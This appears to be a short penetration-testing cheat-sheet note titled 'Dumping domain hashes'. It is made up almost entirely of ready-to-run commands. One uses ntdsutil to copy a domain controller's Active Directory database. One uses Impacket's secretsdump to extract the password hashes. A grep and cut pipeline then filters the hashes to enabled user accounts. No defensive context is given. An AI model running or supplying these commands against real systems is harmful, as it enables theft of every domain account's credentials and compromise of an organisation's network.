 # Dumping domain hashes

## NTDSutil&#x20;

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```
